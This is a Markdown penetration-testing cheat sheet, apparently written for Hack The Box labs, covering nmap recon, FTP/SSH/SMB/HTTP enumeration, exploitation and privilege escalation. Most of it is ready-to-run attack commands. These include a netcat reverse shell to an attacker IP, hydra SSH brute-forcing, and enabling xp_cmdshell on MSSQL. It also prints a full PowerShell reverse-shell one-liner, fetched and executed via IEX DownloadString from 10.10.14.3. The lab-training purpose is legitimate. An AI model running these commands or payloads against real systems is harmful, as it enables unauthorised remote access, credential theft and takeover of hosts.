 # HTB_cheatsheet

## Recon

### nmap

Scan network `nmap <NETWORK>/<CIDR>` <br />
Scan for open ports: `nmap <IP> -p- -T4` <br />
Scan for services and their versions: `nmap <IP> -p<PORT>,<PORT2>,<...> -T4 -A` <br />

### website technologies
TODO
builtwith.com, wappalyzer (browser addon), whatweb, burpsuite

### email-gathering
TODO
Hunter.io, TheHarvester, breach-parse
  
## Enumeration

### FTP (21)
try to connect to ftp-server: `ftp <IP>`, Username: `anonymous`, Password: `<ENTER>` or `Anonymous` <br />
try to find anything interesting, remember to check for hidden directories as well: `ls -la`
copy file from server to client: `ftp> get <REMOTE-FILE> [<LOCAL-FILE>]`

### SSH (22)
try to connect to ssh: `ssh <IP>`. In case of `no matching key exchange method found. Their offer...` use something in lines of `ssh 192.168.57.134 -oKexAlgorithms diffie-hellman-group1-sha1` or `ssh 192.168.57.134 -oKexAlgorithms diffie-hellman-group1-sha1 -c aes128-cbc`<br />
see if a banner is returned (for version detection) and if a password is required <br />
try to connect to ssh via a found private key for user: `ssh -i <PRIV_KEY_FILE> <USER>@IP`. Also try to connect to ssh via a found private key to other users that might have authorized this key.


### SMB (139/445)

try to list available shares on smb: `smbclient -L -N \\\\<IP>\\` <br />
connect to smb-share: `smbclient \\\\<IP>\\<SHARE>` <br />
download file from share: `get \<FILE>` <br />

try to find out version of smb-service: use metasploit module ...smb_version TODO <br />

### HTTP/HTTPS (80/443)

visit webpage in browser

try to enumerate directories via gobuster or dirbuster e.g. `gobuster dir -u https://<IP> -w /usr/share/wordlists/dirbuster/common -k` <br />
typical file extensions are: for Apache .php; for Microsoft asp, aspx; for Others .php, .txt, .rar, .pdf, .docx, ... <br />
(optional) use nikto to find vulnerabilities `nikto -h http(s)://<IP>` <br />


### SQL (Windows)

try to connect via impacket's `mssqlclient.py <USER>@<IP> -windows-auth`<br />
check for admin priviledges to be able to have remote code execution ``SELECT IS_SRVROLEMEMBER (`sysadmin`) `` <br />

## Exploitation

### NC / reverse shell
set up netcat to listen to a specified port: `nc -lvnp <PORT>`<br />
to connect back to our attacker machine: `nc -e /bin/sh <ATTACKER-IP> <PORT>`<br />

#### upgrading shell
if python is available: `python -c 'import pty; pty.spawn ("/bin/bash")'` <br />
background the shell with `Ctrl-Z` <br />
set the stty to raw and echo the input characters: `stty raw -echo` the shell will look broken, but continue <br />
foreground the shell with `fg` and hit `Enter` two times or reinitialize the terminal with `reset` <br />
your shell should now have features like tab-completing, history, Ctrl-C without breaking the connection, ... <br />

### SSH (22)
try to bruteforce ssh login with hydra `hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://<IP>:<PORT> -t 4 -V` <br />
bruteforcing creates a lot of noise and will probably be discovered.
TODO: what is this? use auxiliary/scanner/ssh/ssh_login

### SMB (139/445)

Try to get a reverse shell for a given user and password via psexec (impacket):
`psexec.py '\<USER>:\<PW>@\<IP>'` <br />

Check for vulnerability in combination with FTP of ms17_010


### HTTP/HTTPS (80/443)
Burpsuite! <br />


### MicrosoftSQL (TODO)

if we have sysadmin privileges we can enable the xp_cmdshell to gain remote code execution on the host
```
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure
xp_cmdshell "whoami"
```
we then can download a malicious script from our HTTPServer. We can use a One-Liner reverse shell code and save it as a .ps1 file, e.g. with One-Liner content: `$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`
from the sql server both download and run it directly via `xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.3/shell.ps1\");"` <br />
set up the listener beforehand as usual.

### Hosting a webserver to remotely download files onto the victim machine
- Use `sudo python -m SimpleHTTPServer <PORT>` to run a HTTP-Server inside the current directory <br />
- Use `sudo systemctl start apache2` to run a HTTP-Server on /var/www <br />

Download files on linux via `wget http://<IP>/<File>` or curl TODO <br />
Download files on windows via powershell and `certutil -urlcache -f http://<IP>/<FILE> <PATHONVICTIM>\<FILE>` <br />
Download files on windows via cmd TODO

### Creating malicious code with msfvenom
Show available payloads with `msfvenom -l payloads` <br />

## Privilege Escalation

The bible of privesc: `https://www.fuzzysecurity.com/tutorials/16.html`

### Windows
see what user we are: `whoami` <br />
check the CMD history (not saved between sessions): press `F7` or `doskey /history` <br />
check the PowerShell history: `history` or `type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` <br />
try to find known vulnerabilities, e.g. via [Sherlock](https://github.com/rasta-mouse/Sherlock)

### Linux
see what user we are: `whoami` <br />
check the bash history: `history` or `cat ~/.bash_history` <br />
check sudo privileges of user: `sudo -l` <br />
try to find vulerabilities in kernel, get kernel version with `uname -a` <br />
try to find vulnerable programs running as root with `ps -aux` <br />
if we have no idea what to do: upload `LinEnum.sh` or `linuxprivchecker.py` on target machine (e.g. by via own webserver) and run them, or use `post/multi/recon/local_exploit_suggester` in msfconsole

## Cheatsheets

msfvenom: https://netsec.ws/?p=331
tty shell: https://netsec.ws/?p=337
Reverse-shell 1-liners: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet


